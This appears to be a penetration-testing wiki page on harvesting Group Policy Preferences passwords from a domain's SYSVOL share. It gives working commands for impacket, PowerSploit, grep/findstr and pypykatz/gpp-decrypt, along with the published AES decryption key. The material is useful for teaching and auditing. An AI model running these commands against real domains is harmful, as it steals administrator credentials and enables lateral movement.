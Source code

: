 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator \(with an RID of 500\) that most organizations want to changed the password of. This can be achieved in multiple ways but there is one that is to be avoided : setting the built-in Administrator's password through Group Policies.

* **Issue 1** : the password is set to be the same for every \(set of\) machine\(s\) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all \(or set of\) machines.
* **Issue 2** : by default, knowing the built-in Administrator's hash \(RID 500\) allows for powerful [Pass-the-Hash](../../abusing-lm-and-ntlm/pass-the-hash.md) attacks \([read more](../../abusing-lm-and-ntlm/pass-the-hash.md#limitations-tips-and-tricks)\).
* **Issue 3** : all Group Policy are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷♂.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) \(Python\) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually \(or with Metasploit's `smb_enum_gpp` module\), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) \(Python\) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) \(Ruby\) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated \(i.e. domain user\) context \(see [impersonation](../impersonation.md)\).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```text
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}

{% embed url="https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be" %}



